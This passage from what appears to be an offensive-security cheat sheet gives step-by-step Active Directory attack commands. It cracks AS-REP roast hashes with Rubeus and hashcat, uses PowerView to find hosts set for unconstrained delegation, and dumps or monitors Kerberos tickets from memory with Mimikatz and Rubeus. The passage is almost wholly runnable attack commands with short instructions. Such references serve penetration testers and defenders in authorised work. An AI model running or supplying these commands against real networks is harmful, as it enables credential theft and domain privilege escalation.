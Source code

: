 ```bash
# Locally with rubeus
Rubeus.exe asreproast /format:hashcat

hashcat -m 18200 asrephash.txt wordlisthere -o asreproast-cracked.txt -r rule.rule --session asrep1 
```

### Delegation

#### Unconstrained Delegation

To pull an unconstrained delegation attack off a few tools and some enumeration will be needed.

With a compromised host we can import the PowerView enumeration script to see what host are set for unconstrained delegation. So first we import the script.

```powershell
Import-Module PowerView.ps1
```

Then we query for the host, but ignore any Domain Controllers that show up here because they are not useful for privilege escalation.

```powershell
Get-NetComputer -Unconstrained
```

Then you need to either abuse existing tickets in memory or find a way to add a new one.

Existing
```powershell
# Using MimiKatz
.\mimikatz.exe
privilege::debug

sekurlsa::tickets /export
#or
kerberos::list /export

# Using Rubeus to dump all tickets
.\Rubeus.exe dump
# then 
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<BASE64_TICKET>"))


.\Rubeus.exe triage

# dump specific by luid
.\Rubeus.exe dump /service:krbtgt /luid:luid /nowrap
# then 
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<BASE64_TICKET>"))

# Using Rubeus to monitor for tickets every 3 seconds.
.\Rubeus.exe monitor /interval:3 /nowrap
# Note you can specify a target using /targetuser:user
```
